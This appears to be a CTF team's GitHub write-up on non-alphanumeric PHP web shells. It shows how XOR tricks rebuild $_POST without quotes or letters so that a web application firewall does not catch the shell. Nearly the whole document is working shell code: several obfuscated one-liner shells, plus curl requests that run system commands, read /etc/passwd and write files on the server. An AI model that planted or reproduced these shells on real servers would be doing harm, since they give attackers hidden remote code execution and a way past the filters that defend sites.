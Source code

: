 # Non-Alphanumeric WebShell in PHP

The main goal of a php shell is that you can execute code on the server from the outside.

This can happen via a normal eval shell or with a tiny shell like this:
```php
<?=`$_GET[1]`?>
```
The downside is that the most WAFs at a CTF filter alot of available chars out to make the exploitation harder.

Common chars to be blocked or filtered are 
```
"'`a-zA-Z
```

To be still able to deploy a working shell there are a few things we need to do.

At first there are already non-alphanumeric shells out in the wild but the ones i have seen had one thing in common they needed Quotation marks to create a string once to craft letters out of it.

So I thought to myself, that it would be a quite cool idea to develope a shell which could avoid that and still work the same way.
Thats the first Solution i came up with:

```php
<?=0;$_=[];$_.=[];$_=${(($_[0]^(0 .$_[1]))^(($_[0]^(6 .$_[1]))^($_[3]^(8 .$_[1])))).($_[3]^(1 .$_[1])).($_[4]^(6 .$_[1])).($_[3]^(2 .$_[1])).($_[3]^(5 .$_[1]))};$_[0]($_[1]);
```

Not optimal at all but it works, it crafts a string element at the start from an Array which results in a string with the value "Array" which then can be crafted in \_POST by the xor operator.

| Char X | Char Y | Result |
| - | - | - |
| A | 0 | q |
| A | 6 | w |
| q | w | . |
| a | 8 | Y |
| . | Y | _ |
| a | 1 | P |
| y | 6 | O |
| a | 2 | S |
| a | 5 | T |

Which resulted in \_POST and then can be used to run functions with arguments over code. (This feature is present since php7)

Like this:

```php
// $_ is $_POST
$_[0]($_[1]);
```

Thats quite cool but its so fucking huge so i tough i would optimize the hell out of it. So here is my Minified version of it.

```php
<?=$_=[]..1;$_=${$_[6].$_[3].$_[4].$_[3].$_[3]^($_^$_[5]).+1625};$_[0]($_[1]);
```

So you can send a request such as ```0=system&1_=cat /etc/passwd```

The downside is that if you dont have access to the system function you got no return values
so here is another slightly bigger variation of the shell which will print the result of a function.

```php
<?=$_=[]..1;$_=${$_[6].$_[3].$_[4].$_[3].$_[3]^($_^$_[5]).+1625};$_[0]($_[1]($_[2]));
```

So you can send a request such as ```0=print_r&1=file_get_contents&2_=/etc/passwd```

Here are small curl snippets for you lazy folks to work with the shell :D

```bash
curl https://host.ctf.com/shell.php -X POST -F "0=system" -F "1=cat /etc/passwd" # Shell 1
curl https://host.ctf.com/shell.php -X POST -F "0=print_r" -F "1=file_get_contents" -F "2=/etc/passwd" # Shell 2
```

The full tryhard shell can be archived with this snipped:

```php
<?=$_=[]..1;$_=${$_[6].$_[3].$_[4].$_[3].$_[3]^($_^$_[5]).+1625};$_[0]($_[1]($_[2],$_[3]));
```

With this setup we can run any function with as much arguments as we like.


```bash
curl https://host.ctf.com/shell.php -X POST -F "0=print_r" -F "1=call_user_func_array" -F "2=file_put_contents" -F "3[]=hello.txt" -F "3[]=testcontent"
```


Cli-Ish over and out.

PS: Checkout our cool team page https://pwnprophecy.tk
